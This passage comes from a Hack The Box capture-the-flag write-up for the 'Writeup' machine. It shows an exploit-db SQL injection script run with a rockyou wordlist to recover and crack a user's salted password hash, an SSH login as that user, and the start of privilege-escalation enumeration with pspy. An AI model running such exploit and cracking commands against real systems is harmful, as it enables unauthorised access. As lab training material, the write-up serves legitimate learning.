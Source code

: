 ```
$ python 46635.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt 
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62****************************f7
[+] Password cracked: ra******y9
```
And *voilà*, we get a set of credentials.
### ***Note: Always verify the commands you are running!!***
```
While running the exploit for the first time, I left out the /writeup part of the URL and did not get any result. Consequently, I wasted a lot of time in searching for other ways to gain access. I was not able to find anything and stepped away from it. The next day, when I was looking over my steps, I found the error and got the exploit to work.
```
## **Gaining a foothold**
We can now connect to the machine via SSH and capture the user flag.

```
$ ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

## **Enumeration II**
I found this step to be really hard. I went through my privilege escalation list, one by one, but found nothing that stood out. Finally, I went to 0xdf's writeup for "writeup"(you can find it [here](https://0xdf.gitlab.io/2019/10/12/htb-writeup.html#)) and found that I was on the right track. 

### **Using pspy**
Pspy lists the process running on the system at real time and helps find processes that would have been missed otherwise. The first time that I ran the tool, the only highlight was a cleanup script that ran every minute.
